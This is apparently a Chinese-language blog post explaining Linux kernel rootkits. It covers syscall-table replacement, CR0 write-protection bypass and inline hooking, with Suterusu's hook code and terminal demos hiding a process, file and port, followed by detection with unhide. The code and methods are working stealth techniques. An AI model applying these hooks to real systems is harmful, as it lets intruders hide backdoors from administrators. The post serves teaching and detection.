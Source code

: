 ```yaml
---
title: Linux Rootkits
date: 2018-02-07 20:58:52
categories:
- Security
tags:
- rootkits
---
```


成功入侵系统后，入侵者一般会通过Rootkits工具来隐藏行踪，提供后门方便后续入侵访问。Rootkits一般会隐藏文件，隐藏进程，隐藏网络端口，过滤日志，总之会隐藏任何未授权行为，使入侵者的活动很难被检测到，入侵者可以持续掌控受害系统。

Rootkits的实现手段多种多样，从应用层到动态链接库层，再到内核层，甚至Hypervisor层，都有各种方法实现Rootkits。在应用层直接替换二进制文件如`ls`、`ps`、`top`、`netstat`等，在动态连接库层Hook库函数如`open()`、`opendir()`、`readdir()`、`unlink()`等，在内核层Hook系统调用及内核函数，更改内核行为。

<!-- more -->

![linux kernel attacks](http://7xtc3e.com1.z0.glb.clouddn.com/linux-rootkits/kernel-attacks.png)

从上图可以看出，进程执行流程中的每一步都有可能被利用来控制执行行为，本篇博客重点关注内核层。

内核层最简单的Hook方式是直接将系统调用替换：

``` c
saved_syscall = sys_call_table[SYSCALL_NUMBER];
sys_call_table[SYSCALL_NUMBER] = new_syscall;
```

在内核2.6版本之前，`sys_call_table`是导出符号，可直接引用，在新版内核，该符号不再导出，要替换系统调用，得先找到`sys_call_table`符号地址，方法有很多，如在System.map符号文件中查找；在/proc/kallsyms中查找；在内存中暴力搜索导出的系统调用如`sys_close`，如果`sctable[__NR_close] == (unsigned *) sys_close`，则`sctable`即`sys_call_table`地址；在系统调用入口处`entry_SYSCALL_64`搜索`call`指令`ff 14 c5`，其操作数即`sys_call_table`地址。另外还要解决的一个问题是内存写保护，通过清零`CR0`寄存器的写保护位，使只读页可写，进而可更改`sys_call_table`。

另外一种Hook技术Inline Hooking，不但可以Hook系统调用，还可Hook内核函数，该方法直接修改目标函数指令，跳转到自定义函数。这种技术也是Rootkits [Suterusu](https://github.com/consen/suterusu)用到的Hook技术，Suterusu的Hook框架相当优美，很值得学习。

如在x64系统下，将目标函数指令替换成`mov rax, $addr; jmp rax`，这样执行到目标函数时，会先跳转到自定义函数地址`$addr`执行，执行过程中如需要调用原始目标函数，会将目标函数指令恢复成原始指令调用。

``` c
void hijack_start ( void *target, void *new )
{
    struct sym_hook *sa;
    unsigned char o_code[HIJACK_SIZE], n_code[HIJACK_SIZE];

    #if defined(_CONFIG_X86_)
    unsigned long o_cr0;

    // push $addr; ret
    memcpy(n_code, "\x68\x00\x00\x00\x00\xc3", HIJACK_SIZE);
    *(unsigned long *)&n_code[1] = (unsigned long)new;
    #elif defined(_CONFIG_X86_64_)
    unsigned long o_cr0;

    // mov rax, $addr; jmp rax
    memcpy(n_code, "\x48\xb8\x00\x00\x00\x00\x00\x00\x00\x00\xff\xe0", HIJACK_SIZE);
    *(unsigned long *)&n_code[2] = (unsigned long)new;
    #endif

    DEBUG_HOOK("Hooking function 0x%p with 0x%p\n", target, new);

    memcpy(o_code, target, HIJACK_SIZE);

    o_cr0 = disable_wp();
    memcpy(target, n_code, HIJACK_SIZE);
    restore_wp(o_cr0);

    sa = kmalloc(sizeof(*sa), GFP_KERNEL);
    if ( ! sa )
        return;

    sa->addr = target;
    memcpy(sa->o_code, o_code, HIJACK_SIZE);
    memcpy(sa->n_code, n_code, HIJACK_SIZE);

    list_add(&sa->list, &hooked_syms);
}
```

有了Hook框架，Rootkits的一些操作就很容易实现了。

- **隐藏进程**

Hook procfs中`/proc` file_operations的`iterate_shared()`，替换`filldir()`，隐藏指定PID进程。

```
$ ps -ef | grep Simple
14549     2011  3482  0 20:21 pts/4    00:00:00 python2.7 -m SimpleHTTPServer
14549     2014 27349  0 20:21 pts/9    00:00:00 grep Simple
$ ./sock 1 2011
Hiding PID 2011
$ ps -ef | grep Simple
14549     2036 27349  0 20:22 pts/9    00:00:00 grep Simple
$ ./sock 2 2011
Unhiding PID 2011
$ ps -ef | grep Simple
14549     2011  3482  0 20:21 pts/4    00:00:00 python2.7 -m SimpleHTTPServer
14549     2039 27349  0 20:22 pts/9    00:00:00 grep Simple
```

- **隐藏文件**

Hook当前文件系统file_operations的`iterate_shared()`，替换`filldir()`，隐藏指定文件和目录。

```
$ ls *.c
dlexec.c  hookrw.c  icmp.c  keylogger.c  main.c  module.c  serve.c  sock.c  suterusu.mod.c  util.c
$ ./sock 11 sock.c
Hiding file/dir sock.c
$ ls *.c
dlexec.c  hookrw.c  icmp.c  keylogger.c  main.c  module.c  serve.c  suterusu.mod.c  util.c
$ ./sock 12 sock.c
Unhiding file/dir sock.c
$ ls *.c
dlexec.c  hookrw.c  icmp.c  keylogger.c  main.c  module.c  serve.c  sock.c  suterusu.mod.c  util.c
```

- **隐藏端口**

以隐藏tcp4端口为例，Hook procfs中`/proc/net/tcp` seq_operations的`show()`，隐藏指定端口。

```
$ netstat -anp | grep 8000
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:8000                0.0.0.0:*                   LISTEN      2011/python2.7
$ ./sock 3 8000
Hiding TCPv4 port 8000
$ netstat -anp | grep 8000
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
$ ./sock 4 8000
Unhiding TCPv4 port 8000
$ netstat -anp | grep 8000
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:8000                0.0.0.0:*                   LISTEN      2011/python2.7
```

检测隐藏进程和端口，可以借助工具[unhide](http://www.unhide-forensics.info/?Linux)。

- **检测隐藏进程**

```
$ sudo unhide proc
Used options: 
[*]Searching for Hidden processes through /proc stat scanning

Found HIDDEN PID: 2011
```

unhide暴力枚举`/proc`下进程(1~32768)，如果进程PID目录存在但是对ps命令不可见，则认为该进程被隐藏。

- **检测隐藏端口**

```
$ sudo unhide-tcp -s
Used options: use_quick 
[*]Starting TCP checking

Found Hidden port that not appears in ss: 8000
[*]Starting UDP checking
```

unhide-tcp暴力枚举端口(1~65535)，如果端口正在使用但是对netstat命令不可见，则认为该端口被隐藏。

参考：

- [Wikipedia Rootkit](https://en.wikipedia.org/wiki/Rootkit)
- [Subverting the Linux Kernel](http://eisen.io/slides/jeyu_linux_kernel_rootkits_osseu2017.pdf)
- [Horse Pill -- A New Kind of Linux Rootkit](https://www.blackhat.com/docs/us-16/materials/us-16-Leibowitz-Horse-Pill-A-New-Type-Of-Linux-Rootkit.pdf)
- [Linux Kernel Rootkits](https://www.la-samhna.de/library/rootkits/index.html)
- [Rootkits - Detection and Prevention](https://fenix.tecnico.ulisboa.pt/downloadFile/395137904119/dissertacao.pdf)
- [Suterusu](https://github.com/mncoppola/suterusu/)
- [Research Rootkit](https://github.com/NoviceLive/research-rootkit)
